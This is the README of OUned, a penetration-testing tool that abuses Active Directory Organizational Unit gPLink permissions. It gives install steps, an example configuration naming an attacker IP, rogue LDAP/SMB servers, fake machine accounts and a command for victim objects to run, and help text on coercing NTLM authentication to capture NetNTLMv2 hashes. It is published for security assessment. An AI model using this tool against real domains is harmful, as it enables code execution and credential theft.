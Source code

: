 # OUned

The OUned project, an exploitation tool automating Organizational Units ACLs abuse through gPLink manipulation.

For a detailed explanation regarding the principle behind the attack, the necessary setup as well as how to use the tool, you may refer to the 
associated article:
https://www.synacktiv.com/publications/ounedpy-exploiting-hidden-organizational-units-acl-attack-vectors-in-active-directory

# Installation

Installation can be performed by cloning the repository and installing the dependencies:

```bash
$ git clone https://github.com/synacktiv/OUned
$ python3 -m pip install -r requirements.txt
```

# Configuration file

OUned arguments are provided through a configuration file - an example file is provided in the repository, `config.example.ini`. 

Each entry is described by a comment, but for detailed configuration instruction, please refer to the article mentioned in the introduction above.
```ini
[GENERAL]
# The target domain name
domain=corp.com

# The target Organizational Unit name
ou=ACCOUNTING

# The username and password of the user having write permissions on the gPLink attribute of the target OU
username=naugustine
password=Password1

# The IP address of the attacker machine on the internal network
attacker_ip=192.168.123.16

# The command that should be executed by child objects
command=whoami > C:\Temp\accounting.txt

# The kind of objects targeted ("computer" or "user")
target_type=user


[LDAP]
# The IP address of the dummy domain controller that will act as an LDAP server
ldap_ip=192.168.125.245

# Optional (used for sanity checks) - the hostname of the dummy domain controller
ldap_hostname=WIN-TTEBC5VH747

# The username and password of a domain administrator on the dummy domain controller 
ldap_username=ldapadm
ldap_password=Password1!

# The ID of the GPO (can be empty, only needs to exist) on the dummy domain controller
gpo_id=7B7D6B23-26F8-4E4B-AF23-F9B9005167F6

# The machine account name and password on the target domain that will be used to fake the LDAP server delivering the GPC
# Do not forget to escape '%' signs by doubling them ! (e.g. '%%')
ldap_machine_name=OUNED$
ldap_machine_password=some_very_long_random_password_with_percent_signs_escaped

[SMB]
# The SMB mode can be embedded or forwarded depending on the kind of object targeted
smb_mode=forwarded

# The name of the SMB share. Can be anything for embedded mode, should match an existing share on SMB dummy domain controller for forwarded mode
share_name=synacktiv

# The IP address of the dummy domain controller that will act as an SMB server
smb_ip=192.168.126.206

# The username and password of a user having write access to the share on the SMB dummy domain controller
smb_username=smbadm
smb_password=Password1!

# The machine account name and password on the target domain that will be used to fake the SMB server delivering the GPT
# Do not forget to escape '%' signs by doubling them ! (e.g. '%%')
smb_machine_name=OUNED2$
smb_machine_password=some_very_long_random_password_with_percent_signs_escaped
```

# OUned usage

The only mandatory argument when running OUned is the `--config` flag indicating the path to the configuration file. 

The `--just-coerce` and `coerce-to` flags are used for SMB authentication coercion mode, in which OUned will force SMB authentication from 
OU child objects to the specified destination - for more details, see the article linked in the introduction.

Regarding the `--just-clean` flag, see the next section.

```
python3 OUned.py --help
                                                                                                                                                                                    
 Usage: OUned.py [OPTIONS]                                                                                                                                                          
                                                                                                                                                                                    
╭─ Options ────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╮
│ *  --config               TEXT  The configuration file for OUned [default: None] [required]                                                                                      │
│    --skip-checks                Do not perform the various checks related to the exploitation setup                                                                              │
│    --just-coerce                Only coerce SMB NTLM authentication of OU child objects to the destination specified in the --coerce-to flag, or, if no destination is           │
│                                 specified, to a local SMB server that will print their NetNTLMv2 hashes                                                                          │
│    --coerce-to            TEXT  Coerce child objects SMB NTLM authentication to a specific destination - this argument should be an IP address [default: None]                   │
│    --just-clean                 This flag indicates that OUned should only perform cleaning actions from specified cleaning-file                                                 │
│    --cleaning-file        TEXT  The path to the cleaning file in case the --just-clean flag is used [default: None]                                                              │
│    --verbose                    Enable verbose output                                                                                                                            │
│    --help                       Show this message and exit.                                                                                                                      │
╰──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯
```

# About cleaning

By default and as explained in the article, OUned will perform cleaning actions and among others restore the original gPLink value in the target domain. In case the exploit could not exit properly, OUned creates a cleaning file each time the exploit is executed, that can be used later on to restore legitimate values by using the `--just-clean` flag; for instance:

```bash
$ python3 OUned.py --config config.example.ini --just-clean --cleaning-file cleaning/FINANCE/2024_04_14-05_02_46.txt
```
